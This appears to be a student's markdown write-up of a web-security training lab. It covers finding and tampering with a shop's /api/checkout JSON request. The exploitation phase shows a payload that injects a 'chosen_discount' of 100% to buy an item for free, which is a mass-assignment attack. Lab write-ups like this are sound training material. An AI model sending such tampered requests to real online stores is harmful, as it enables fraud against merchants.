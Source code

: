 # 🧪 Lab: Finding and Exploiting an Unused API Endpoint

## 📋 Lab Description

**Goal:**  
Exploit a hidden API endpoint to purchase a **Lightweight l33t Leather Jacket** using the credentials `wiener:peter`.

**Level:** Practitioner  
**Status:** ✅ *Completed*

---

## 🔍 Phase 1: Reconnaissance

- Logged in using the provided credentials: `wiener:peter`
- Explored the application to identify visible functionality
- Captured and reviewed HTTP requests using Burp Suite
- Identified existing endpoints, such as:
  - `/api/products`
  - `/api/user/cart`
- Noticed the API request GET `/api/checkout` used for the checkout contain a JSON object
  -```{
        "chosen_discount":{
            "percentage":0
            },
        "chosen_products":[
            {
                "product_id":"1",
                "name":"Lightweight \"l33t\" Leather Jacket","quantity":1,
                "item_price":133700
            }
        ]
    }
  ```

---

## 🧪 Phase 2: Testing & Errors

- Tried changing the API request: I sent POST `/api/checkout` adding `chosen_discount` as a parameter in the json object--> No error retrived 
```{
        "chosen_products":[
            {
                "product_id":"1",
                "quantity":1,
            }
        ]
    }
```
--->
```
{
        "chosen_discount":{
            "percentage":0
            },
        "chosen_products":[
            {
                "product_id":"1",
                "quantity":1,
            }
        ]
    }
```
- Tried to change the value of the `percentage` in a char --> got the error invalid value

---

## 🎯 Phase 3: Exploitation

- I sent a POST `/api/checkout` with the payload to get a 100% discount for the article: 

```
{
        "chosen_discount":{
            "percentage":100
            },
        "chosen_products":[
            {
                "product_id":"1",
                "quantity":1,
            }
        ]
    }
```
